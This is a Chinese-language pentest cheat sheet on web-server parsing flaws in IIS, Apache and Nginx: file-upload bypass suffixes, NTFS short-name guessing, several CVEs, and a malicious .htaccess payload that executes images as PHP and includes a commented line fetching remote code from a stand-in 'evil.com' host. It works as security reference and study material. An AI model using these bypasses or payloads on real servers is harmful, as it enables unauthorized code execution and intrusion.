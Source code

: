 ## 概要

[中间件](https://baike.baidu.com/item/%E4%B8%AD%E9%97%B4%E4%BB%B6/452240?fr=aladdin)是介于应用系统和系统软件之间的一类软件，它使用系统软件所提供的基础服务（功能），衔接网络上应用系统的各个部分或不同的应用，能够达到资源共享、功能共享的目的。

## IIS

### IIS 6.0

-   后缀解析 /xx.asp;.jpg

   服务器默认不解析 **;** 号及其后面的内容，相当于截断。

-   目录解析 /xx.asp/xx.jpg (xx.asp目录下任意解析)
-   默认解析 xx.asa xx.cer xx.cdx
-   PROPFIND 栈溢出漏洞
-   RCE CVE-2017-7269

### IIS 7.0-7.5 / Nginx <= 0.8.37

在Fast-CGI开启状态下，在文件路径后加上 /xx.php ，即 xx.jpg/xx.php 会被解析为php文件。

### PUT漏洞

-   开启WebDAV
-   拥有来宾用户，且来宾用户拥有上传权限
-   可任意文件上传

### Windows特性

Windows不允许空格和点以及一些特殊字符作为结尾，创建这样的文件会自动重命名，所以可以使用 xx.php[空格] ， xx.php.， xx.php/， xx.php::$DATA 上传脚本文件。

### 文件名猜解

在支持NTFS 8.3文件格式时，可利用短文件名猜解目录文件。其中短文件名特征如下：

-   文件名为原文件名前6位字符加上 ~1 ，其中数字部分是递增的，如果存在前缀相同的文件，则后面的数字进行递增。
-   后缀名不超过3位，超过部分会被截断
-   所有小写字母均转换成大写的字母
-   文件名后缀长度大于等于4或者总长度大于等于9时才会生成短文件名，如果包含空格或者其他部分特殊字符，则无视长度条件

IIS 8.0之前的版本支持短文件名猜测的HTTP方法主要包括：DEBUG、OPTIONS、GET、POST、HEAD、TRACE六种，需要安装ASP.NET。而IIS 8.0之后的版本只能通过OPTIONS和TRACE方法猜测成功，但是没有ASP.NET的限制。 这种方法的局限性在于：

-   文件夹名前6位字符带点”.”，扫描程序会认为是文件而不是文件夹，最终出现误报
-   不支持中文文件名

这种方法可以通过命令 fsutil behavior set disable8dot3 1 关闭NTFS 8.3文件格式的支持来修复。

### 参考链接

-   [利用Windows特性高效猜测目录](https://xz.aliyun.com/t/2318)

## Apache编辑

### 后缀解析

test.php.x1.x2.x3 （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。==Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析==

### .htaccess

当AllowOverride被启用时，上传启用解析规则的.htaccess

```
AddType application/x-httpd-php .jpg
php_value auto_append_file .htaccess
#<?php phpinfo();
Options ExecCGI
AddHandler cgi-script .jpg
Options +ExecCGI
AddHandler fcgid-script .gif
FcgidWrapper "/bin/bash" .gif
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://evil.com/evil-code.txt
```

### 目录遍历

配置 Options +Indexes 时Apache存在目录遍历漏洞。

### CVE-2017-15715

%0A 绕过上传黑名单。

### lighttpd

```
xx.jpg/xx.php
```

### 参考链接

-   [Apache 上传绕过](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)

## Nginx编辑

### 配置错误

#### Fast-CGI关闭

在Fast-CGI关闭的情况下， Nginx 仍然存在解析漏洞： 在文件路径(xx.jpg)后面加上 %00.php ， 即 ==xx.jpg%00.php 会被当做 php 文件来解析==

#### Fast-CGI开启

在Fast-CGI开启状态下，在文件路径后加上 /xx.php ，则 ==xx.jpg/xx.php 会被解析为php文件==

##### CVE-2013-4547

```
a.jpg\x20\x00.php
```

### 目录穿越

如果配置中存在类似 location /foo { alias /bar/; } 的配置时，/foo../ 会被解析为 /bar/../ 从而导致目录穿越的发生。

### 目录遍历

配置中 autoindex on 开启时，Nginx中存在目录遍历漏洞。